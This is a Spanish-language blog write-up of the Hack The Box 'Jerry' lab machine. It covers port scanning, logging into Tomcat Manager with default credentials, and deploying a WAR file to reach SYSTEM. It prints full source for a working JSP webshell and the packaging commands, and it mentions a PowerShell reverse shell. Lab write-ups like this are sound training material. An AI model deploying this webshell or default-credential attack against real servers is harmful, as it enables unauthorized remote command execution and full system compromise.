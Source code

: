 ```yaml
---
layout: post
title: Hack The Box Jerry Write-Up
date: 2025-01-24
categories: [Write-Ups, HackTheBox, Machine, Easy]
tags: [Easy, Tomcat RCE]
image: /assets/post_details/jerry/jerry_front_image.png
---
```

# Hack The Box: Jerry Write-Up
La **maquina easy** [Jerry](https://app.hackthebox.com/machines/Jerry) de [Hack The Box](https://app.hackthebox.com/) trata de una enumeración por el protocolo http, encontrando así un Tomcat configurado con credenciales comunes o por defecto, llevando así a poder tomar el privilegio mediante un RCE.

## Enumeration
Realizamos la enumeración de puertos y de servicios, encontramos el puerto 8080 abierto, en el corre el servicio **Tomcat**, el cual es un servidor web de código abierto y un contenedor de servlets desarrollado por la Apache Software Foundation. Es una de las implementaciones más populares de las tecnologías **Java Servlet**, **JavaServer Pages (JSP)** y **Java Expression Language (EL)**, este permite ejecutar aplicaciones web en **Java**.
```bash
nmap -p8080 -sCV -n -Pn 10.10.10.95 -oN full_scan.txt
```
![nmap](/assets/post_details/jerry/jerry_nmap_enum.png)
### HTTP - 8080
Nos encontramos con la pagina por defecto, uno de los posibles vectores de ataque es entrar al `Application Manager` para esto necesitaremos credenciales.
![default page](/assets/post_details/jerry/jerry_default_page.png)
## Tomcat RCE via jsp file
### Get Credentials
Al darle en el boton `Host Manager` y realizar unos intentos fallidos, nos redirige a esta pagina de error, en la que nos muestra estas credenciales por defecto.
![default creeds](/assets/post_details/jerry/jerry_default_creeds.png)

Utilizamos estas credenciales por defecto para loguearnos en el `Tomcat Web Application Manager`, en el que podemos lanzar un **RCE** realizando una webshell, en este [repo](https://github.com/simran-sankhala/Pentest-Tomcat) esta explicado.
![tomcat web application manager](/assets/post_details/jerry/jerry_tomcat_web_application_manager.png)
### Making file
Debemos de crearnos un fichero `index.jsp`, los ficheros **JavaServer Pages (JSP)** es una tecnología que ayuda a los desarrolladores de software a crear páginas web dinámicas basadas en HTML y XML, entre otros tipos de documentos, se utiliza java para programarlos. En este caso `index.jsp` contendra una webshell, que desde el navegador podremos lanzar comandos.
```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

Debemos de pasar el fichero **jsp** a **war** ya que nos lo pide la aplicación web, los ficheros **war** son una aplicación Web empaquetada.
```bash
> mkdir webshell
> cp index.jsp webshell
> cd webshell
> jar -cvf ../webshell.war *
```
### Dropping RCE
Subimos el archivo y realizamos el **Deploy** del archivo, el cual estara listado en `Applications` en el `dashboard`.
![war file](/assets/post_details/jerry/jerry_upload_war_file.png)

En el nos lanzamos una **revshell** de [revshells](https://www.revshells.com/), una powershell en base64, y teniendo un listener obtenemos la shell.
![webshell](/assets/post_details/jerry/jerry_webshell_powershell.png)
### GetSystem
Obtenemos la shell como **nt authority\system** usuario con mayor privilegio en el sistema, nos quedaria obtener las dos flags.
![getsystem](/assets/post_details/jerry/jerry_getsystem.png)
